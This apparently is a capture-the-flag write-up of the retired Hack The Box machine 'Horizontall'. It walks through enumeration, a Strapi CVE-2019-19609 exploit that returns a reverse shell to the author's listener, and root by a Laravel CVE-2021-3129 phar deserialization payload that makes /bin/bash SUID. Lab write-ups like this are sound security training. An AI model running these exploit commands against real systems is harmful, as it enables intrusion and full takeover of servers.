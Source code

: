 ```yaml
---
layout: post
title: "HTB: Horizontall"
author: Andrew Cherney
date: 2023-02-17 19:55:05
tags: htb easy-box
icon: "assets/icons/horizontall.png"
post_description: ""
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nmap -sC 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-17 20:26 CST
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http
|_http-title: horizontall
```

<h2>Port 80 - HTTP</h2>

{% include img_link src="/img/horizontall/front_page" alt="front_page" ext="png" trunc=500 %}

In looking around the javascript file **app.c68eb462.js** I find a reference to **http://api-prod.horizontall.htb/reviews** and I can now add <code>10.10.11.105 api-prod.horizontall.htb horizontall.htb</code> to my **/etc/hosts** file.

<h2>api-prod</h2>

{% include img_link src="/img/horizontall/api-prod_front" alt="front_page" ext="png" trunc=100 %}

![api-prod reviews](/img/horizontall/Horizontall_json_reviews.png)

There seems to be some uploaded json for reviews of a service/product here. I'll toss out a dirb to find anything else on this subdomain.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $dirb http://api-prod.horizontall.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb 18 11:18:40 2023
URL_BASE: http://api-prod.horizontall.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://api-prod.horizontall.htb/ ----
+ http://api-prod.horizontall.htb/admin (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/Admin (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/ADMIN (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/favicon.ico (CODE:200|SIZE:1150)                            
+ http://api-prod.horizontall.htb/index.html (CODE:200|SIZE:413)                              
+ http://api-prod.horizontall.htb/reviews (CODE:200|SIZE:507)                                 
+ http://api-prod.horizontall.htb/robots.txt (CODE:200|SIZE:121)                              
+ http://api-prod.horizontall.htb/users (CODE:403|SIZE:60)  
```

<h1>User as strapi</h1>

<h2>CVE-2019-19609</h2>

Heading to that admin portal I am met with a strapi login screen. When searching for vulnerabilities on exploit-db the only versions with known exploits are **3.0.0-beta.17.4 and 3.0.0-beta.17.7** so I get to trying to find the strapi verison. 

![strapi version](/img/horizontall/Horizontall_version_strapi.png)

Bingo, we're on **beta.17.4** which means [this unauthenticated RCE](https://www.exploit-db.com/exploits/50239) should let me get a shell as www-data. In reading through the exploit it seems I could have gone to **http://api-prod.horizontall.htb/admin/init** to find out the strapi version. 

Unfortunately this exploit doesn't seem to give me RCE. On the up side it did reset the password of admin to **SuperStrongPassword1** and when I log in it gives me a jwt of:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjc2NzQ3NTg3LCJleHAiOjE2NzkzMzk1ODd9.O0y5CLqbmYKRIRg0KNy0BjKxELvdlGeQquP9pwnGgVY
```

Now in searching for other exploits I came across [this exploit using a jwt for RCE](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT/blob/main/exploit.py). At the endpoint /admin/plugins/install there is a way to pipe commands through and bypass traditional authentication methods.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $python3 strapi_jwt_exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjc2NzQ3NTg3LCJleHAiOjE2NzkzMzk1ODd9.O0y5CLqbmYKRIRg0KNy0BjKxELvdlGeQquP9pwnGgVY -l 10.10.14.14 -p 7777
[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)
[+] Remember to start listening to the port 7777 to get a reverse shell
[+] Sending payload... Check if you got shell
[+] Payload sent. 
```

```
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45220
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<h1>Root</h1>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45232
/bin/sh: 0: can't access tty; job control turned off
$ netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1862/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -             
```

I found that there is a service running on port 8000 of localhost. In curling that service I find out that it is Laravel v8 (PHP v7.4.18). In a cursory search of exploits I find [this CVE-2021-3129 exploit for versions <=8.4.2](https://github.com/ambionics/laravel-exploits). I'll set up an ssh key for the user strapi and use ssh tunneling to run exploits against this localhost service from my host machine. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $ssh strapi@10.10.11.105 -i key -L 8000:localhost:8000
```

I can then execute the payload towards my localhost:8000 and it will target the laravel service on the box. Then I can clone the phpggc repo and run the laravel exploit after generating my payload.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall/phpggc]
└──╼ $php -d'phar.readonly=0' ./phpggc --phar phar -o shell.phar --fast-destruct monolog/rce1 system id
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall/phpggc]
└──╼ $cd ..
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $python3 laravel_exploit.py http://localhost:8000/ phpggc/shell.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Well that is awfully convenient that laravel is running as root. Since this exploit is RCE I can have it change /bin/bash to be an SUID and get root. 

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o shell.phar --fast-destruct monolog/rce1 system "chmod u+s /bin/bash"
```

```bash
$ /bin/bash -p
bash-4.4# cat /root/root.txt
b83c0d741c44ab-----------------
```

